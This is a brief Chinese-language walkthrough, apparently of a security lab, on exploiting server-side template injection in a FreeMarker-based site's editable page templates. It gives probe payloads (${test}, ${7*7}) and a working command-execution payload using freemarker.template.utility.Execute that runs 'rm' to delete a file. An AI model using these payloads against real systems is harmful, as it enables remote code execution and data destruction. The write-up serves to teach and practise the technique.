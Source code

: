 该网站可以对发布的网页模板进行编辑



![](images/0F739E146B164583B2A1F2C3DF1CA1B0clipboard.png)



## paylaod:

```javascript
${test}
```



模板无法解析报错

![](images/F9E21DE131C647FC913D2DB393600ED2clipboard.png)

根据报错信息知道是freemarker模板



## 测试paylaod:

```javascript
${7*7}
```



返回页面查看存在49说明存在漏洞



## 命令执行paylaod:

```javascript
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /home/Carlos/morale.txt") }
```

